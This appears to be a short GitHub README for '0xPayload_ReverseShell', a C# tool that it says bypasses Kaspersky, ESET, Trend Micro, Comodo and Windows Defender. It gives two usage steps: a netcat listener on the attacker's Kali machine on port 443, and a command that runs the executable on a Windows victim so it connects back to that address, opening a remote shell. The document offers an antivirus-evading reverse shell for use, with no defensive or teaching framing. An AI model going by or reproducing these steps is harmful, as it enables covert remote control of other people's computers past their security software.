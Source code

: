 # 0xPayload_ReverseShell

This is Simple C# Source code to Bypass AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo & Windows Defender Bypassed via this method Very Simple)

fast kali Step 1 (Linux Side:192.168.0.1)   : nc -l -p 443 

Step 2 (Windows Side:192.168.56.x) : 0xPayload_ReverseShell.exe 192.168.0.1 443 
